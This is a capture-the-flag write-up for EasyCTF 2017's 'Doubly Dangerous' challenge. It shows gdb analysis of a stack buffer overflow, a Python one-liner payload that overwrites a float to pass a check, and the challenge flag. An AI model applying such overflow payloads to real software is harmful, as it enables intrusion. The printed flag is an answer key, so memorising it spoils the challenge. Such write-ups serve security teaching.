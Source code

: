 # Doubly Dangerous - 110 Points

There seems to be an issue with [this](https://github.com/EasyCTF/easyctf-2017-problems/blob/master/doubly-dangerous/doubly_dangerous?raw=true) binary. Can you exploit it?

### Solution

###### Writeup by VoidMercy from phsst

We were given a binary.

We first run it to see what it does

```
Give me a string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
nope!
Segmentation fault
```

Seems like a buffer overflow because there was a segmentation fault. This means gets() was probably used, and gets() does not care about the length of the string we input. Now let's take a look at the code in gdb with

```
gdb doubly_dangerous
set disassembly-flavor intel
disas main
```

Here is the interesting instruction:

```
0x0804863c <+53>:    fld    DWORD PTR [ebp-0xc]
0x0804863f <+56>:    fld    DWORD PTR ds:0x804876c
0x08048645 <+62>:    fucomip st,st(1)
```

We can see that fucomip is being used, which is floating point instructions. We surmise that we need to make this compare return true. We can see that the value at 0x804876c is being compared to the value at ebp-0xc. Because we saw a segmentation fault, we know this consists of an overflow. We experiment with the amount of bytes to type until the value at ebp-0xc is overflowed.

```
python -c "print 'A'*69" > temp

(gdb) r < temp
...
Breakpoint 1, 0x08048686 in main ()
(gdb) x/10wx $ebp-0xc
0xffffd0dc:     0x41414141      0xf7fc0041      0xffffd100      0x00000000
0xffffd0ec:     0xf7e31a83      0x08048690      0x00000000      0x00000000
0xffffd0fc:     0xf7e31a83      0x00000001
```

Alright, we can see that 69 characters overflows the content at ebp-0xc and 1 extra character. This means we need 64 characters to get the ebp-0xc, and then with the next four characters, we can control what value to place in $ebp-0xc. Now, we need to check what value to replace it with.

```
(gdb) x/10wx 0x804876c
0x804876c:      0x41348000      0x3b031b01      0x00000030      0x00000005
0x804877c:      0xfffffc60      0x0000004c      0xfffffe0b      0x00000070
0x804878c:      0xfffffe97      0x00000090
```

We can see the value we need is 0x41348000. Now we can construct our exploit.

```
python -c "print 'A'*64 + '\x00\x80\x34\x41'" | ./doubly_dangerous
```

```
python -c "print 'A'*64 + '\x00\x80\x34\x41'" | ./doubly_dangerous
Give me a string: 
Success! Here is your flag:
easyctf{bofs_and_floats_are_d0uble_tr0uble!}
```

## Flag

>easyctf{bofs_and_floats_are_d0uble_tr0uble!}
